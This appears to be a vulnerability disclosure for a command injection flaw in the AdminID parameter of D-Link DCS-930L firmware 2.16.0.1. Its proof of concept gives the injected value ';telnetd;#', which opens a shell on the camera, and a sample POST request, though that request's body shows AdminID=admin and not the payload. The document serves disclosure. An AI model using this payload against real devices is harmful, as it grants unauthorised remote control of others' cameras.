 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  2.16.0.1

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v2.16.0.1. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests. Vulnerable devices include all firmware versions **v2.16.0.1** of the DCS-930L.


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
Just set `AdminID` as **';telnetd;#** , and the device will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=admin&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
